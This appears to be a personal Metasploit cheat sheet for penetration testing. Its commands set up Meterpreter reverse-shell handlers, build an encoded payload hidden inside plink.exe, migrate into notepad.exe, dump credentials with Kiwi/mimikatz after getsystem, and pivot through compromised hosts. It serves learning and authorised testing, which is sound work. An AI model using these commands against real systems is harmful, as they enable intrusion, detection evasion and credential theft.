 ```yaml
---
title: Metasploit
author: i4
date: M11-12-2022
---
```


##  Database
```bash
systemctl start postgresql
sudo msfdb init
```

###  NMAP
```
db_nmap [ip] [options]
hosts
services -p [port]
```
## Meterpreter handler
```
msf> use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST <Listening_IP>
msf exploit(handler) > set LPORT <Listening_Port>
msf exploit(handler) > run -j # run in background
```


## Auto migrate
- spawns `notepad.exe` process (no GUI) and migrates to it.
```
msf exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
```

## Basic Information

### Staged / Non-Staged
```metasploit
windows/shell_reverse_tcp # Non-staged
windows/shell/reverse_tcp # staged
```
A non-staged payload is sent entirely along with the exploit. A staged on the other hand in two parts. 

The first part contains a small staged (primary payload) that causes the machine to connect back.


TLDR; if the buffer is too small for the whole payload, use a staged one.

### Payloads
Searching for different keywords
```metasploit
exploit(xx/xx/xx) > search meterpreter type:payload
```

#### Generating payloads from withing msfconsole
```meterpreter
> generate f exe -e x86/shikata_ga_nai -i 8 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```


### Advanced features
```metasploit
> show advanced
> set EnableStageEncoding true # Encodes the second staged payload
> set StageEncoder x86/shikata_ga_nai # Set encoder
> set AutoRunScript windows/gather/enum_logged_on_users # enum all logged on users after initial exploitation
```

##### Switching transports
It is possible to switch communication protocols using the `transport` command.
```
> transport list # lists the current possible transport protocols available
> transport add # Adds a new transport protocol '-t' sets the desired type 
```
Example
```meterpreter
> transport add -t reverse_tcp -l [ip] -p [port]
> background
> use multi/handler
...
> transport next
```

### Loading modules
#### Powershell
```meterpreter
> load powershell
> powershell_execute "$PSVersionTable.PSVersion"
```
#### Kiwi
```meterpreter
> load kiwi
> getsystem # mimikatz needs system to run
> creds_msv
```

## Pivoting 
- Added route will only work with established connections
```metasploit
# Add a route
> route add [ip]/[CIDR] [session ID]
```

``` metasploit
> use multi/manage/autoroute
```

Socks proxy can be configured like this:
```meterpreter
> use auxiliary/server/socks4a_proxy
```

#### Portforwarding
```meterpreter
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to conn
    -R        Indicates a reverse port forward.
    -h        Help banner.
    -i <opt>  Index of the port forward entry to interact with (see the "list" command
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
```

### Misc
- Commands can be saved in an `.rc` file
- Load them at startup with `msfconsole -r setup.rc` 
```metasploit
# Global variables
gset RHOSTS xxx.xxx.xxx.xxx
# Don't disabled listener if session dies
gset ExitOnSession false
# Enable automigration
set AutoRunScript post/windows/manage/migrate
```
## Development
- Recreate the folder structure 
copy skel from `/usr/share/metasploit-framework/modules`  to `/root/.msf4/modules/` 
